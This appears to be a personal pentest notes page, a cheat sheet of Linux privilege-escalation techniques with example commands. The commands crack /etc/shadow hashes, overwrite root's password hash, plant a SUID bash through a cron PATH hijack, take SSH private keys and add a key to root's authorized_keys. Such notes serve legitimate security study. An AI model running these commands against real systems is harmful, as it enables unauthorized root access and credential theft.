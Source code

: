 ```yaml
---
title: Notes | Linux Privilage Escalation
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [privilage-escalation]
permalink: /notes/system/linux-pe
---
```


> Check the [Hacktricks](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) checklist!
{: .prompt-tip }

---

# Enumeration

There are some useful tools like:
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LinuxPrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

---

# Kernel Exploits 

If is an old server we can search for Kernel vulnerabilities. For example, one famous is [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs).

---

# Vulnerable software

Running `dpkg -l` to check software version.

---

# User Privileges 

It's important to check which privileges have our user.

We can try to see which commands are allowed to use:
```console
zero@pio$ sudo -l
  (user : user) NOPASSWD: /bin/echo
```
In the above example we see the variable **NOPASSWD**, which means that *user* has no password protection. We can try to change to him:
```console
zero@pio$ sudo -u user /bin/echo Hello!
  Hello!
```

Try to logging in root directly:
```console
sudo su -
```

---

# Files

### /etc/shadow
If we can read the file **/etc/shadow** we can try to break the hashes with **john**:
```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

If **/etc/shadow** is writeable we can change the passwords. First we need to generate one:
```console
$ mkpasswd -m -sha-512 [password]
```
And then replace the hash.

### /etc/passwd
If we can write in **/etc/passwd** we can change the password:
```console
$ openssl passwd [password]
```
Then we replace the **x** in the same line as the root with the hash, now we can log as root.

---

# Scheduled Tasks

We can find *crontab* in the following path:
- `/etc/crontab`{: .filepath}
- `/etc/cron.d`{: .filepath}
- `/var/spool/cron/crontabs/root`{: .filepath}

If in the **/etc/crontab** we have the PATH with the **/home/user** we can create the following script in the home:
```console
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
We need to give execution permission and wait to the crontab to execute the file. Then do
```console
$ /tmp/rootbash -p
```
Now we are root.

---

# Exposed Credentials

We can try searching for credentials, as in configuration, log or history files (**bash_history**).
Don't forget about **Password Reuse**.

---

# SSH

Each user has a `/.ssh/`{: .filepath} folder. If we can read the keys we can connect directly. Usually they are:
- `/home/user/.ssh/id_rsa`{: .filepath}
- `/root/.ssh/id_rsa`{: .filepath}

To connect using the RSA:
```console
zero@pio$ chmod 600 id_rsa
zero@pio$ ssh user@<ip> -i id_rsa
```

If we can write in the `/.ssh/`{: .filepath} we can write our public key inside the target machine, at `/home/user/.ssh/authorized_keys`{: .filepath}. The current SSH configuration will not accept keys written by other users, so it will only work if we have already gained control over that user.
First, create a new key. Copy the `key.pub` inside `/root/.ssh/authorized_keys`{: .filepath}.
```console
zero@pio$ ssh-keygen -f keys

victim@machine$ echo "ssh-rsa AAAAB...SNIP...M= user@zeropio" >> /root/.ssh/authorized_keys

zero@pio$ ssh root@10.10.10.10 -i key
root@remotehost$ 
```

---

# Tools
- [Kernel Vulnerabilities](https://github.com/jondonas/linux-exploit-suggester-2)
- [Useful practices](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [GTFOBins](https://gtfobins.github.io/)

